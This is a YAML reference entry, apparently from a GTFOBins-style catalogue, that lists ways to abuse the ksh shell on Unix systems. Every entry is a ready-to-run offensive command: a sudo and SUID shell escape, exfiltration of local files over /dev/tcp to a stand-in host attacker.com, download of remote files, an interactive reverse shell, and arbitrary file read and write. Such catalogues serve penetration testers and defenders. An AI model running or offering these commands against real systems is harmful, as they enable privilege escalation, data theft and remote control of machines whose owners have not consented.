```yaml
---
functions:
  execute-interactive:
    - code: ksh
  sudo-enabled:
    - code: sudo ksh
  suid-enabled:
    - code: ./ksh -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  file-read:
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c 'echo "$(<$LFILE)"'
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  file-write:
    - code: |
        export LFILE=file_to_write
        ksh -c 'echo data > $LFILE'
---
```


